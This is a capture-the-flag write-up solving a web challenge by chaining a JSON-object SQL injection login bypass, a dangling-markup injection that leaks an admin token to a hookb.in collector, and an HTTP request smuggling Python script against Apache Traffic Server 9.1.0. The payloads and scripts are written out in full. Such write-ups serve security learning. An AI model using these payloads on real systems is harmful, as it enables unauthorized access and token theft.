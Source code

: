 ## PALINDROME's Secret

We are given a website and its source code. There is a login page.

This web application requires 3 exploits to be able to retrieve the flag. 
1. SQL injection (not your normal SQL payload)
1. HTTP Request Smuggling (damn cool, never learnt before)
1. Cross-Site Scripting (sort of, but it is HTML Injection)

![Login Page](./Images/Challenge5_1.png)

```js
const postLoginHandler = async (req, res) => {
    const { email, password } = req.body
    if (!email || !password)
        return res.status(400).send({ message: 'Missing email or password' })

    const rows = await query(`SELECT * FROM users WHERE email = ? AND password = ?`, [email, password])
    if (rows.length === 0)
        return res.status(401).send({ message: 'Invalid email or password' })

    req.session.userId = rows[0].id
    return res.status(200).send({ message: "Success" })
}
```

This is the login handler. We can use the exploit [here](https://flattsecurity.medium.com/finding-an-unseen-sql-injection-by-bypassing-escape-functions-in-mysqljs-mysql-90b27f6542b4) to perform sql injection and obtain a login token.

```json
{
    "email":{
        "email": 1
    },
    "password":{
        "password": 1
    }
}
```
![Login Success](./Images/Challenge5_2.png)

We use burpsuite to intercept the request, change the json object that is POST-ed and then we can login into the portal!

![Login Success GUI](./Images/Challenge5_3.png)

The only place the admin token is present is in the middleware. It seems like we need the connection to originate from localhost. Probably means we need to find some place to conduct an SSRF attack.

```js
const authenticationMiddleware = async (req, res, next) => {
    if (req.session.userId) {
        if (req.ip === '127.0.0.1')
            req.session.token = process.env.ADMIN_TOKEN 

        next()
    }
    else 
        return res.redirect('/login')
}
```

The place with the highest chance of SSRF looks like the `report-issue` feature, where we can input an URL to the server to scan. However to get to the `do-report` feature, we are blocked by the proxy. The `do-report` path is mapped to `forbidden`, instead of `do-report`.

```
map             /login          http://app:8000/login
map             /index          http://app:8000/index
map             /token          http://app:8000/token
map             /verify         http://app:8000/verify
map             /report-issue   http://app:8000/report-issue
map             /static         http://app:8000/static
map             /do-report      http://app:8000/forbidden
regex_redirect  http://(.*)/    http://$1/index
```

It seems like the proxy used is `Trafficserver 9.1.0`. This seems to be an old version of Apache Traffic Server.

```
RUN curl -L https://archive.apache.org/dist/trafficserver/trafficserver-9.1.0.tar.bz2 > ats.tar.bz2 && \
    tar xf ats.tar.bz2 && \
    cd trafficserver-9.1.0 && \
    ./configure --prefix=/opt/ts && \
    make && \
    make install
```

I was quite sure that it was HTTP request smuggling since the `remap.config` is looks properly configured and the only other way to `/do-report` is through smuggling. I made a detour to think about the final step first. 

Even if we can make a request to `/do-report`, what URL should we provide it? My first idea was naive. I tried to host a web server which returns javascript to make the puppeteer visit `https://localhost:8000/token` and then return the html response. Well, it failed, because of, CORS. A browser doesn't let you make requests to servers that don't allow CORS.

Inside `main.js` we can see this:
```js
res.setHeader(
        'Cross-Origin-Opener-Policy',
        'same-origin'
    )
```

This is the example payload in the URL.
```html
<script>
  let req = new XMLHttpRequest();
  req.open("GET", "http://localost:8000/index");
  req.onreadystatechange = function () {
    if (req.readyState === 4) {
      const req2 = new XMLHttpRequest();
      req2.open("POST", "https://hookb.in/8PVJYNKQqEUpVYopj8VX", true);
      req2.setRequestHeader("Content-Type", "application/json");
      req2.send(JSON.stringify({"response": req.status }));
    }
  };
  req.setRequestHeader("Content-Type", "application/json");
  req.responseType = "json";
  req.send(JSON.stringify({ "username" : "yolo" }));
  req.send();
</script>
```

Well then the only other way is to really make puppeteer, retrieve the token somewhere inside `localhost:8000` and then return us the token. My first thought was something like reflected XSS, but there is no fields that allow to do so. Persistent XSS was possible though. Inside `/token`, you can input **any** username you want, and then the token generated can be used as XSS inside `/verify?token=...`. It is now clear where to steal the admin token, the admin token will be revealed inside `http://localhost:8000/verify?token=...` right behind the `!{username}` tags.

```pug
            | This token belongs to !{username}.
            | If !{username} asks for your token, you can give them this token: #{token}.
```

My first naive idea was to insert `<script>` tags.

![XSS](./Images/Challenge5_4.png)

Well, nothing worked. Let's check the `Content-Security-Policy`. Inside `main.js`:

```js
    res.setHeader(
        'Content-Security-Policy',
        "default-src 'self'; img-src data: *; object-src 'none'; base-uri 'none'; frame-ancestors 'none'"
    )
```

It seems like we won't be able to load scripts that are not from the server itself. The only thing we are able to inject will be `img src` tags. Let's try to craft a `img` tag payload. The only one that was able to succeed was `<img src="c2server/c2url?a=` As the unclosed `"` and `>` will mean that we can steal some text from behind where `username` was rendered. 

![Img tag](./Images/Challenge5_5.png)

Using `<img src="...` as payload. We can see that the second `img src` gets broken off.

![img src](./Images/Challenge5_6.png)
![returned payload](./Images/Challenge5_6_1.png)

After experimenting many more payloads, the final payload looks like this. It looks like the HTML injection worked and we can steal the user's token. Now we just need to smuggle the request to this page to the backend server.

``"><img src="https://hookb.in/6J1enM3l90ToO0ro3Px9?steal=`
![img src success](./Images/Challenge5_7.png)
![returned payload success](./Images/Challenge5_7_1.png)

Now back to the HTTP request smuggling. After some extensive googling, an [HTTP request smuggling exploit](https://hackerone.com/reports/1238099) for ATS 9.0.0 looks promising. I downloaded the `poc.zip` and then used `payload2.py` to craft my payload. I first used hookbin as the URL so that I can check if the HTTP request smuggling succeeded, this particular python payload was able to return a request to my hookbin endpoint.

```python
import sys

def h(n):
    return hex(n)[2:].encode()

payload = b"{\"url\": \"https://hookb.in/Lg3WWl6pPMi1lrp1aGn1\"}"
cookie = b"Cookie: connect.sid=s%3AU9-fwBPGCKnA9HEFOKwZnRwDoaMu9pzq.zDzhgdHfIrIYYtibgwtTPLAymXU9niSE0BvhDgpl6Yw"

smuggled = (
    b"POST /do-report HTTP/1.1\r\n" +
    b"Host: chal010yo0os7fxmu2rhdrybsdiwsdqxgjdfuh.ctf.sg:23627\r\n" +
    b"Content-Type: application/json" + b"\r\n" +
    b"Content-Length: " + str(len(payload)).encode() + b"\r\n" +
    cookie + b"\r\n" +
    b"\r\n" +
    payload + b"\r\n" +
    b"0\r\n\r\n"
)

smuggled_len = h(len(smuggled) - 7 + 5)

first_chunk_len = h(len(smuggled_len))

sys.stdout.buffer.write(
    b"GET /index HTTP/1.1\r\n" +
    b"Host: chal010yo0os7fxmu2rhdrybsdiwsdqxgjdfuh.ctf.sg:23627\r\n" +
    b"Transfer-Encoding: chunked\r\n" +
    cookie + b"\r\n" +
    b"\r\n" +
    first_chunk_len + b" \n" + b"x"*len(smuggled_len) + b"\r\n" +
    smuggled_len + b"\r\n" +
    b"0\r\n" +
    b"\r\n" +
    smuggled
)
```

`python payload2.py | nc 128.199.237.165 23627`

Now, all that is left is to put in the "XSS" payload into a token and then make puppeteer visit the URL. I replaced the URL in the `payload2.py` to `payload = b"{\"url\": \"http://localhost:8000/verify?token=TISC%7B2%3A2%3A3%3A9%3A7%3Ax%3An%3Ar%3A4%3Au%7D\"}"`. And we get the flag!

![Flag](./Images/Challenge5_8.png)

So let's run through the steps again.
1. First I used SQLi using json payloads to login into the console. 
1. Then I crafted a [HTTP Dangling Markup Injection](https://portswigger.net/web-security/cross-site-scripting/dangling-markup) payload which allows us to steal the html text. The username is entered as the payload and the resulting token produced will be the URL that we want puppeteer to visit. 
1. Then I used HTTP request smuggling to make a request to `/do-report` so that it will visit the verify token page. Once puppeteer visits the URL, the dangling markup will be able to capture the token and return it to us.

